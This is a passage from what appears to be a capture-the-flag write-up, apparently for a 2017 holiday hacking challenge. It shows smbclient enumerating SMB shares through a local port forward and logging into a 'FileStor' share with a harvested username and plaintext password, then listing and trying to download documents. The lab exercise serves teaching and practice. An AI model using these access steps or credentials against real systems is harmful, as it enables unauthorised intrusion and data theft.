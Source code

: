                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">--------- ----      -------</span>

                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">ADMIN$     Disk      Remote Admin</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">C$         Disk      Default share</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">FileStor   Disk      </span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">IPC$       IPC       Remote IPC</span>

                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Reconnecting with SMB1 for workgroup listing.</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Connection to 127.0.0.1 failed (Error NT_STATUS_CONNECTION_REFUSED)</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Failed to connect with SMB1 -- no workgroup available</span></pre>
                          <p> </p>
                          <p class="MsoNormal">Interesting. I found three fileshares available, provided we have the right credentials. I tried to access both ADMIN$ and C$, but they appear to be restricted to Mr. Snowball. The FileStor mount, however, is ripe for the picking.</p>
                          <pre class="MsoFooter" style="margin-left: .5in;"><b><span style="font-size: 12.0pt; color: #c33720; mso-fareast-language: ZH-CN;">root@kali</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">:</span><b><span style="font-size: 12.0pt; color: #5230e1; mso-fareast-language: ZH-CN;">~</span></b><span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;"># smbclient -p 4000 \\\\127.0.0.1\\FileStor -U alabaster_snowball%stream_unhappy_buy_loss</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">WARNING: The "syslog" option is deprecated</span>

                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Try "help" to get a list of possible commands.</span>

                          <span lang="DA" style="font-size: 12.0pt; mso-ansi-language: DA; mso-fareast-language: ZH-CN;">smb: \&gt; dir</span>
                          <span lang="DA" style="font-size: 12.0pt; mso-ansi-language: DA; mso-fareast-language: ZH-CN;">.       </span>D        0  Sat Dec 30 21:07:11 2017
                          <span lang="DA" style="font-size: 12.0pt; mso-ansi-language: DA; mso-fareast-language: ZH-CN;">..      </span>D        0  Sat Dec 30 21:07:11 2017
                          <span lang="DA" style="font-size: 12.0pt; mso-ansi-language: DA; mso-fareast-language: ZH-CN;">BOLO - Munchkin Mole Report.docx      A   255520  Wed Dec  6 14:44:17 2017</span>
                          <span lang="DA" style="font-size: 12.0pt; mso-ansi-language: DA; mso-fareast-language: ZH-CN;">GreatBookPage3.pdf A  1275756  Mon Dec  4 12:21:44 2017</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">MEMO - Password Policy Reminder.docx      A   133295  Wed Dec  6 14:47:28 2017</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Naughty and Nice List.csv A    10245  Thu Nov 30 12:42:00 2017</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">Naughty and Nice List.docx A    60344  Wed Dec  6 14:51:25 2017</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">
                          13106687 blocks of size 4096. 9618145 blocks available</span>

                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">smb: \&gt; get *docx</span>
                          <span style="font-size: 12.0pt; mso-fareast-language: ZH-CN;">NT_STATUS_OBJECT_NAME_INVALID opening remote file \*docx</span>
